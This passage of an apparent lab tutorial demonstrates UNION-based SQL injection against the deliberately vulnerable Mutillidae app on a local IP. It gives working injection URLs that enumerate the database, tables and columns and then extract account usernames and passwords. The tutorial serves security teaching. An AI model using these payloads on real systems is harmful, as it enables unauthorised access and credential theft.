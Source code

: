 ![img26](https://github.com/user-attachments/assets/82baf182-1d54-4913-89f9-a7e723e4daf9)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=robinson%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![img27](https://github.com/user-attachments/assets/ec56b284-7ac1-47b0-943d-224acbe2466e)


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=robinson%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![img28](https://github.com/user-attachments/assets/fd4359b3-e141-4aa3-8f8d-11ebda07e98f)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.


![img29](https://github.com/user-attachments/assets/12099037-07e2-4da1-8a73-755f97bdc65e)




The column names of the accounts is displayed below for the following url:


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=robinson%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![img30](https://github.com/user-attachments/assets/33908b83-2970-46d4-88a6-f7b729563089)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).
